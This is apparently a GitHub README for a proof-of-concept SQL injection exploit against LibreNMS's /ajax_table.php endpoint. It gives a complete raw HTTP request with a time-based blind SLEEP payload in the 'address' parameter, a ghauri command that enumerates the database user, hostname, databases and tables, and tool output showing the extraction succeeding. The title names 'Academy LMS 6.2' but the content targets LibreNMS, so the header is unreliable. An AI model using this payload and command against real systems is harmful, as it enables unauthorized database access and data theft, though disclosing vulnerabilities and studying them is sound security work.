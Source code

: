 # librenms_sql_poc

Exploit Title: Academy LMS 6.2 - SQL Injection Leads to database extraction

Exploit Author: Nisha Thakur

Vendor: librenms

Vendor Homepage: https://www.librenms.org/

Impact: Database Extraction

LinkedIn: https://www.linkedin.com/in/nisha-thakur-32b162277/

## POC
Login your account. then copy the coope and paste on below raw request
```
POST /ajax_table.php HTTP/1.1
Host: demo.librenms.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 221
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: laravel_session=eyJpdiI6IkhSbUwrVXQ0dHJDekVadlBrZStpWFE9PSIsInZhbHVlIjoicGZpL24yVGs5V1BxTnVWZXBGTmVrWUdKY0gyNmJJWHhtb1BkR2k0REhpaXFnYkJ6YnF2YmpLSC8wWnZRSkhCeWVhRDY2WHZBREhxRFE0SGpDNUd2NTMzbXdCc09tMUZnaDlpZkxQeHpibzJnZVdUNVhMd3pvVndLaGhIWjNWK1AiLCJtYWMiOiJiNmVhOWU1ZDJiYWI1Yjk5NjA0ZDk0NWZiNzcyMTY2NmQ5ZGY4MmYxZGVlMDQ4NTNlNzkzMGMyN2RmMTUyYmZkIiwidGFnIjoiIn0%3D; XSRF-TOKEN=eyJpdiI6IkxIZ3gvUGxDb0ZGNnEyUU9VNXdFYnc9PSIsInZhbHVlIjoibmI1alBXOVd1d1J6R3NCcUt1bkJNWGY0UzAxbFZYbVBKZG4rK0VRNkdpTVhwRzVqZXdGVmczMytnYjg5QVJmZ2FHZTNBa2RUY09MSFBDUWt1WXhQSEpiZDNVM3ZkUGVqbnJMVjZ6c2xjSEl5WkFNN0VWTWNUTXp3ZDZ2N1lWbnoiLCJtYWMiOiJhOGU4NDJiYTBmZTJiMTM2ZGNlZDMwNzkzMWM3NDVlZjEyYWFiODUwM2Q2ZmQ4YmVlMzUwOGM0ZDVkMmM3YjRiIiwidGFnIjoiIn0%3D
Origin: https://demo.librenms.org
Referer: https://demo.librenms.org/search/search=mac/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Csrf-Token: pqiGN72KyLqHwTyBgwtU6WVk216yTkC3TncjuZmX
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: demo.librenms.org
X-Forwarded-Proto: https
X-Forwarded-Url: https://demo.librenms.org/ajax_table.php
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

address='XOR(SELECT(0)FROM(SELECT(SLEEP(7)))a)XOR'Z&current=1&device_id=&id=address-search&interface=&rowCount=50&searchPhrase=&search_type=mac&sort[hostname]=asc
```
here vulnerable parameter is address .
For exploitation download ghauri tool. save raw request and then 
```
ghauri -r aa.txt --batch --dbs --current-user --hostname --tables
```
Response
```
Parameter: address (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind (query SLEEP)
    Payload: address='XOR(SELECT(0)FROM(SELECT(SLEEP(7)))a)XOR'Z&current=1&device_id=&id=address-search&interface=&rowCount=50&searchPhrase=&search_type=mac&sort[hostname]=asc

[16:54:29] [INFO] testing MySQL
[16:54:29] [INFO] confirming MySQL
[16:54:29] [INFO] the back-end DBMS is MySQL
[16:54:29] [INFO] fetching current user
[16:54:41] [INFO] resumed: 'librenms@localhost'
current user: 'librenms@localhost'
[16:54:41] [INFO] fetching hostname
[16:54:51] [INFO] resumed: 'utils'
hostname: 'utils'
[16:54:51] [INFO] fetching database names
[16:54:51] [INFO] fetching number of databases
[16:54:59] [WARNING] it was not possible to extract query output length for the SQL query provided.
[16:54:59] [WARNING] the SQL query provided does not return any output
[16:54:59] [ERROR] unable to retrieve the number of databases
[16:54:59] [INFO] fetching current database
[16:55:09] [INFO] resumed: 'librenms'
current database: 'librenms'
```
